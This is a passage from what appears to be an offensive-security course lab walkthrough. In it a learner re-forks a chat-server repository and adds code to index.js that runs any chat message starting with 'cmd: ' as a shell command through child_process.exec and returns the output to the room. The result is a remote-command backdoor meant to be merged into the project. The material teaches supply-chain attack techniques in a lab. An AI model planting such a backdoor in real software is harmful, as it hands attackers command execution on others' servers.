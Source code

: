 For this exploit, we'll choose the third option. While it might be harder to interact with the shell using scripts, it's not impossible (and out of scope for this Module in any case).

Since we created a pull request already that was merged into the **master** branch, our fork is out of sync with the **master** branch. We could update our fork but it's easier to delete our fork and create a new one that's up-to-date. To delete the fork, we'll navigate to the _Settings_ tab, scroll to the bottom, and click the _Delete This Repository_ button.

![[OffSec/Cloud/Offensive Cloud Foundations/z. images/b1411d7a21b17a8bf9f5b6341b51130e_MD5.jpg]]

Figure 21: Delete Fork

This will open a confirmation where we have to type in the repo name (**chat-server**) and click _Delete Repository_.

![[OffSec/Cloud/Offensive Cloud Foundations/z. images/7e4b92cb90d295f443d50dda8fc62965_MD5.jpg]]

Figure 22: Delete Fork - Confirmation

Now that the repository is deleted, let's return to the _Adis_Zvekic/chat-server_ repository and create a new fork. We'll **cd** back to the **home** directory, **rm** the existing folder, **git clone** the updated fork, and **cd** into it.

```
kali@kali:~/chat-server$ cd ..

kali@kali:~$ rm -rf chat-server

kali@kali:~$ git clone http://git.offseclab.io/offsec/chat-server.git
Cloning into 'chat-server'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 17 (delta 4), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (17/17), 19.29 KiB | 282.00 KiB/s, done.
Resolving deltas: 100% (4/4), done.

kali@kali:~$ cd chat-server
```

> Listing 16 - Removing Old chat-server Repo and Cloning the New One

Next, we need to make the change to **index.js** that will contain our custom execution code. Let's add our new code after line 47. We'll explain this code below.

```
kali@kali:~/chat-server$ nano index.js 

kali@kali:~/chat-server$ cat -n index.js
...
45      socket.on('NEW_MESSAGE', (message, callback) => {
46          const user = getUser(socket.id);
47          if (message.includes("cmd: ")){
48            const { exec } = require('child_process');
49            cmd = message.replace("cmd: ", "")
50            exec(cmd, (error, stdout, stderr) => {
51              if (error) {
52                io.to(user.room).emit('MESSAGE', { user: user.name, text: "ERROR: " + error.message});
53              }else{
54                io.to(user.room).emit('MESSAGE', { user: user.name, text: "OUTPUT: " + stdout});
55              }
56            });
57          }
58          io.to(user.room).emit('MESSAGE', { user: user.name, text: message });
59          //io.to(user.room).emit('ROOM_DATA', { room: user.room, users: getAllUsersInRoom(user.room)});
60
```